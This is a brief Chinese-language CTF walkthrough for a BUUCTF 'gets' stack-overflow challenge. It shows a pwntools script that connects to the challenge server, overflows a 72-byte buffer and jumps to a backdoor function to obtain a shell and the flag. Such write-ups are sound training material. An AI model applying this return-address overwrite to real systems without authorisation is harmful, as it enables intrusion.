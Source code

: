 ### Gets 栈溢出

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677cc7cdd0e0a243d4f11322.jpg)

IDA64 反编译

![](https://pic1.imgdb.cn/item/677cc7e4d0e0a243d4f1134c.jpg)

给出了后门函数

![](https://pic1.imgdb.cn/item/677cc80fd0e0a243d4f11385.jpg)

看内存溢出大小是 72

![](https://pic1.imgdb.cn/item/677cc826d0e0a243d4f113a7.jpg)

构造 payload

```python
from pwn import *

p = remote("node5.buuoj.cn", 27079)

payload = b'a' * 72 + p64(0x40060D)

p.sendline(payload)
p.interactive()
```

拿到 flag

![](https://pic1.imgdb.cn/item/677cc85fd0e0a243d4f113e6.jpg)